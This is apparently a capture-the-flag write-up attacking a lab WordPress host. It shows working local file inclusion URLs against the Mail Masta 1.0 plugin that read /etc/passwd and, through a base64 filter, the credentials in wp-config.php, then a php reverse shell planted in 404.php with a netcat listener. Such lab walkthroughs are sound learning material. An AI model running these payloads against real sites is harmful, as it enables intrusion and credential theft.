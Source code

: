 we can see that there is twentytwenty these in use on website and plugin identified is Mail Masta 1.0.

After identifying the plugin and it's version, I quickly searched for [Mail Masta Exploit](https://www.exploit-db.com/exploits/40290) ,

> **WordPress Plugin Mail Masta 1.0 - Local File Inclusion** : The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

Now, since we know that this website is vulnerable to LFI, we can visit the following URL to achieve LFI,

```
http://10.10.36.47/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

![image](https://user-images.githubusercontent.com/67465230/187159348-9b4ce0e7-c5f0-45f8-b513-1fbacce30f7a.png)

we can see the content of /etc/passwd file, meaning we have successfully exploited LFI vulnerability.

Now, I tried to read wp-config.php file with php filter wrapper which encodes data into base64 before presenting it to user,

```
http://10.10.36.47/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```

![image](https://user-images.githubusercontent.com/67465230/187159409-3adf55bb-8a49-4a95-8da1-5696a896922b.png)

and I got the long base64 string. 

I decided to decode this string using this command,

```bash
echo '<base64 string>' | base64 -d
```

![image](https://user-images.githubusercontent.com/67465230/187159528-4319b89e-0b44-4829-8177-16554a149132.png)

we got the username, password, database name, etc.

Now we can login to wordpress panel using elyana's credentials,

![image](https://user-images.githubusercontent.com/67465230/187159577-fc66c100-cb58-4a1e-9063-8bcccf7677c7.png)

after entering the credentials, we can click on *Remind me later* button and we will be taken on home page of the wordpress panel.

After enumerating website, I saw the file named 404.php can be edited by the user. So I tried to put the php-reverse-shell here and change the IP and port to desired ones. I also started netcat listener to catch the connection,

![image](https://user-images.githubusercontent.com/67465230/187159661-595e99fa-5f2c-46fe-a4a9-c4e0cd25fa7b.png)
